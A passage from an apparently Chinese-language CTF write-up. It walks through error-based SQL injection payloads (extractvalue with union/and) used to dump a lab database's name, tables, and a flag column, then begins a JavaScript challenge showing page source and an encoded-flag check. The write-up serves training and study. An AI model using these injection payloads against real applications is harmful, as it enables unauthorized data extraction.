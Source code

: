```
1' union select 1,extractvalue(1,concat('~',(select database()))),3#
```
得到库名为~test_db
然后爆表名
```
1' union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3#
```
得到表名为test_tb,users
然后爆每个表下的列名，先看一下users的
![](https://doc.amqyy.cn/uploads/230811e4-e96c-4dea-bf17-30c4b2d715e3.png)
具体到每列的内容里没有flag，说明不是这个表，然后看下一个表
```
1' and 1=extractvalue(1,concat('~',(select group_concat(id,'~',flag) from test_tb)))#
```
![](https://doc.amqyy.cn/uploads/2d5cfe17-ce6a-46d4-b63e-35e71e183e5e.png)

```
1' and 1=extractvalue(1,concat('~',(select substring(group_concat(id,'~',flag),31,30) from test_tb)))#
```
![](https://doc.amqyy.cn/uploads/7a271092-27d2-415f-9121-f51a06fd9be3.png)
去掉相同的6,拼接在一起得到flag

## [SWPUCTF 2022 新生赛]js_sign
>做题人；余俊康
>题目url：https://www.nssctf.cn/problem/2884
>知识点：js

![](https://doc.amqyy.cn/uploads/318d2e40-7cfe-44f3-bc56-a84a3eab867f.png)
打开题目要输入一点什么。输个1'看看
![](https://doc.amqyy.cn/uploads/f5237020-b8cb-4234-bcec-1c3c94ad3805.png)
显然不是，然后去看一看源码
```php
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <style>
    body {
      background-color: rgb(255, 255, 255);
    }
  </style>
</head>
<body>
  <input id="flag" />
  <button>Check</button>
  
  
  <script src="./main.js"></script>
</body>
</html>
```
这里有个main.js可以访问，打开看看
```php-template=
document.getElementsByTagName("button")[0].addEventListener("click", ()=>{
    flag="33 43 43 13 44 21 54 34 45 21 24 33 14 21 31 11 22 12 54 44 11 35 13 34 14 15"
    if (btoa(flag.value) == 'dGFwY29kZQ==') {
        alert("you got hint!!!");
    } else {
        alert("fuck off !!");
    }    
```